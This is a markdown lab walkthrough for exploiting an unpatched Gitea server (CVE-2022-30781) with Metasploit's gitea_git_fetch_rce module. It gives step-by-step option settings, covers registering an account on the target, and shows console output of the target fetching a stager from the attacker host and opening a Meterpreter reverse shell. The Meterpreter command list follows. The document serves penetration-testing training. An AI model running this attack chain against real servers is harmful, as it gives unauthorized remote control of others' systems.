

+++
title = "Unpatched Gitea"
weight = 1
+++

## 1. Searching Metasploit
Start up your *msfconsole* and search for the Gitea exploit.
`search gitea`

You will recall that your target Gitea server is potentially vulnerable to *CVE-2022-30781* and that the remediation commit in Github 
references escaping the git fetch remote URL.  In this case we're interested in option *#0*.  Load up this exploit module with either:

`use 0`

`use exploit/multi/http/gitea_git_fetch_rce`

## 2. Attempting the exploit
Typing *show options* tells us we need to set a couple of options

* **RHOSTS** - Our target IP address
* **LHOST**  - The IP of our attacking machine
* **USERNAME** - Presumably Gitea credentials
* **PASSWORD** - Presumably Gitea credentials

Setting values within *msfconsole* is really straight forward.

 * `set RHOSTS 192.168.0.105`
 * `set LHOST 192.168.0.103`
 * `set USERNAME guest`
 * `set PASSWORD guest`
 * `set SRVPORT 8181` - The port on our machine we'll tell Gitea to connect to
 * `set ForceExploit true` - Ignores whatever the *check* module returns
 * `run` - Try the exploit

```bash
[*] Started reverse TCP handler on 192.168.0.103:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Cannot reliably check exploitability. Check TARGETURI - Unexpected HTTP response code ForceExploit is enabled, proceeding with exploitation.
[*] Using URL: http://192.168.0.103:8181/
[*] Using URL: http://192.168.0.103:8181/3oYWb2XU9
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/gitea_git_fetch_rce) > 
```

## 3. Creating a user
It looks like our exploit will require valid credentials to Gitea.  Check if the server allows account creation.


It looks like we can create a new user account!


Now head back to your *msfconsole* and set the *USERNAME* and *PASSWORD* for the user account you just created and try the exploit again.

```bash
[*] Started reverse TCP handler on 192.168.0.103:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 1.16.6
[*] Using URL: http://192.168.0.103:8181/
[*] Using URL: http://192.168.0.103:8181/bnQOtbfkgbqrJGD
[*] Client 192.168.0.105 (curl/7.47.0) requested /bnQOtbfkgbqrJGD
[*] Sending payload to 192.168.0.105 (curl/7.47.0)
[*] Sending stage (3045348 bytes) to 192.168.0.105
[*] Command Stager progress - 100.00% done (121/121 bytes)
[*] Meterpreter session 1 opened (192.168.0.103:4444 -> 192.168.0.105:42720) at 2023-03-21 14:46:55 -0500

meterpreter > 
```

## 4. Meterpreter basics

You can return to your *msfconsole* at any time simply by issuing the **background** command. 
While in the *msfconsole* you can type **sessions** to get a list of active meterpreter sessions and then `sessions -i 0`
 where 0 is the Id of the session you want to interact with that session.



* Type `help` to get a list of available meterpreter commands

```
Core Commands
=============

    Command       Description
    -------       -----------
    ?             Help menu
    background    Backgrounds the current session
    bg            Alias for background
    bgkill        Kills a background meterpreter script
    bglist        Lists running background scripts
    bgrun         Executes a meterpreter script as a background thread
    channel       Displays information or control active channels
    close         Closes a channel
    detach        Detach the meterpreter session (for http/https)
    disable_unic  Disables encoding of unicode strings
    ode_encoding
    enable_unico  Enables encoding of unicode strings
    de_encoding
    exit          Terminate the meterpreter session
    guid          Get the session GUID
    help          Help menu
    info          Displays information about a Post module
    irb           Open an interactive Ruby shell on the current session
    load          Load one or more meterpreter extensions
    machine_id    Get the MSF ID of the machine attached to the session
    pry           Open the Pry debugger on the current session
    quit          Terminate the meterpreter session
    read          Reads data from a channel
    resource      Run the commands stored in a file
    run           Executes a meterpreter script or Post module
    secure        (Re)Negotiate TLV packet encryption on the session
    sessions      Quickly switch to another session
    use           Deprecated alias for "load"
    uuid          Get the UUID for the current session
    write         Writes data to a channel


Stdapi: File system Commands
============================

    Command       Description
    -------       -----------
    cat           Read the contents of a file to the screen
    cd            Change directory
    checksum      Retrieve the checksum of a file
    chmod         Change the permissions of a file
    cp            Copy source to destination
    del           Delete the specified file
    dir           List files (alias for ls)
    download      Download a file or directory
    edit          Edit a file
    getlwd        Print local working directory
    getwd         Print working directory
    lcat          Read the contents of a local file to the screen
    lcd           Change local working directory
    lls           List local files
    lpwd          Print local working directory
    ls            List files
    mkdir         Make directory
    mv            Move source to destination
    pwd           Print working directory
    rm            Delete the specified file
    rmdir         Remove directory
    search        Search for files
    upload        Upload a file or directory


Stdapi: Networking Commands
===========================

    Command       Description
    -------       -----------
    arp           Display the host ARP cache
    getproxy      Display the current proxy configuration
    ifconfig      Display interfaces
    ipconfig      Display interfaces
    netstat       Display the network connections
    portfwd       Forward a local port to a remote service
    resolve       Resolve a set of host names on the target
    route         View and modify the routing table


Stdapi: System Commands
=======================

    Command       Description
    -------       -----------
    execute       Execute a command
    getenv        Get one or more environment variable values
    getpid        Get the current process identifier
    getuid        Get the user that the server is running as
    kill          Terminate a process
    localtime     Displays the target system local date and time
    pgrep         Filter processes by name
    pkill         Terminate processes by name
    ps            List running processes
    shell         Drop into a system command shell
    suspend       Suspends or resumes a list of processes
    sysinfo       Gets information about the remote system, such as OS


Stdapi: Webcam Commands
=======================

    Command       Description
    -------       -----------
    webcam_chat   Start a video chat
    webcam_list   List webcams
    webcam_snap   Take a snapshot from the specified webcam
    webcam_strea  Play a video stream from the specified webcam
    m


Stdapi: Mic Commands
====================

    Command       Description
    -------       -----------
    listen        listen to a saved audio recording via audio player
    mic_list      list all microphone interfaces
    mic_start     start capturing an audio stream from the target mic
    mic_stop      stop capturing audio


Stdapi: Audio Output Commands
=============================

    Command       Description
    -------       -----------
    play          play a waveform audio file (.wav) on the target system

meterpreter > 
```

There is quite a bit you can do with a meterpreter session and there is no need for me to rewrite the great documentation 
that already exists.  So here are a few external links for you to check out on your own.

* [https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/](https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/)
* [https://www.offsec.com/metasploit-unleashed/meterpreter-basics/](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/) 
* [https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/linux/x86/meterpreter/reverse_tcp.md](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/linux/x86/meterpreter/reverse_tcp.md)
